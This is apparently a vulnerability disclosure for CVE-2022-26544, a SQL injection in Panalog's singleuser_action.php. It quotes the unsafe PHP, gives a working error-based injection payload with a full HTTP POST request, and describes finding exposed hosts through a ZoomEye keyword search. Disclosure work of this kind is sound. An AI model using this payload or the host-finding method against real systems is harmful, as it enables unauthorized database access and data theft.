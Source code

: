 # singleuser_action.php

## Overview

`singleuser_action.php` does not filter user input leading to sql injection.

- Affected Product: Panalog
- Affected versions: MARSr9-MARSr10
- CVE ID: CVE-2022-26544
- Vulnerability Type: SQL Injection
- Root Cause: singleuser_action.php, construct sql line 86, exec in line 155.

[Link](https://download.panabit.com:8443/json/system/api.php?action=download&type=panalog&md5=8977c01f5e6caca2462f0315b97147e1) to download this version.

Affected file: `/usr/logd/www/singleuser_action.php`


## Vulnerability Causes

### User input unfiltered

In the 10th line, the user input is taken directly, but not filtered, and the next step is taken directly.

```php
# Line 10-11
$json = json_decode($userinfo);
$operation_type = $json->syncInfo->operationType;
```

Once the mysql connection is established, malicious requests are appended directly to sql statementstion.

```php
# Line 84-98
switch($operation_type) {
case "ADD_USER":
    $sql = "insert into palog.singleuser(user_id, user_name, user_pwd, account_status, user_sex, user_birthday, user_post, user_rank, user_phone, user_mobilephone, user_mailaddress, user_ca, user_class, parent_id, employee_id, department_id, coporation_id, user_duty, user_postcode, user_alias, user_homeaddress, user_msn, user_nt, bxlx) values('$user_id', '$user_name', '$user_pwd', '$account_status', '$user_sex', '$user_birthday', '$user_post', '$user_rank', '$user_phone', '$user_mobilephone', '$user_mailaddress', '$user_ca', '$user_class', '$parent_id', '$employee_id', '$department_id', '$coporation_id', '$user_duty', '$user_postcode', '$user_alias', '$user_homeaddress', '$user_msn', '$user_nt', '$bxlx')";
    $sql2 = "insert into palog.users(username, password, mod_1)values('$user_id', '$user_pwd', 'Y')";
    break;

case "DELETE_USER":
    $sql = "delete from palog.singleuser where user_id='$user_id'";
    $sql2 = "delete from palog.users where username='$user_id'";
    break;

case "UPDATE_USER":
    $sql = "update palog.singleuser set user_name='$user_name', user_pwd='$user_pwd', account_status='$account_status', user_sex='$user_sex', user_birthday='$user_birthday', user_post='$user_post', user_rank='$user_rank', user_phone='$user_phone', user_mobilephone='$user_mobilephone', user_mailaddress='$user_mailaddress', user_ca='$user_ca', user_class='$user_class', parent_id='$parent_id', employee_id='$employee_id', department_id='$department_id', coporation_id='$coporation_id', user_duty='$user_duty', user_postcode='$user_postcode', user_alias='$user_alias', user_homeaddress='$user_homeaddress', user_msn='$user_msn', user_nt='$user_nt', bxlx='$bxlx' where user_id='$user_id'";
    break;
}
```

And SQL statement executed at lines 155-159

```php
if (mysql_query($sql) == false) {
	outputres("no", mysql_error());
	mysql_close();
	exit;
}
```

or depend requests, it may executed at lines 161-162

```php
if ($sql2 != "")
	mysql_query($sql2);
```



## Building malicious requests

In the 10th line, it told us to build a json body, that top key is `syncInfo`  and has `operationType` sub-key, in this case we use `ADD_USER` as `operationType`.

And with `ADD_USER` as `operationType`, look at lines 85-88 to determine what fields we need. Then use lines 58 to 82 as a reference, we can construct a json request to trigger this vulnerability.

json body:

```json
{
    "syncInfo": {
        "operationType": "ADD_USER",
        "user": {
            "userId": "a' || updatexml(1,concat(0x7e,(select @@version),0x7e),1)and '1'='1%23",
            "userPwd": "a"
        }
    }
}
```

HTTP requests:

``` sh
POST /singleuser_action.php HTTP/1.1
Host: TARGET_HOSTS
User-Agent: Mozilla/5.0 (X11; Fedora; Linux x86_64; rv:97.0) Gecko/20100101 Firefox/97.0
Accept: image/avif,image/webp,*/*
Accept-Language: en-US;q=0.5,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Content-Length: 223

{
    "syncInfo": {
        "operationType": "ADD_USER",
        "user": {
            "userId": "a' || updatexml(1,concat(0x7e,(select @@version),0x7e),1)and '1'='1%23",
            "userPwd": "a"
        }
    }
}
```



## Proof of vulnerability

Search for the keyword: `您的日志系统时间和您的流控系统时间相差` at https://www.zoomeye.org/

And check for the version using  `TARGET_HOST/cretime.txt`

![Image01](01.img01.png)

Any software that can send post packets can reproduce the vulnerability. (e.g: burp)

![Image02](01.img02.png)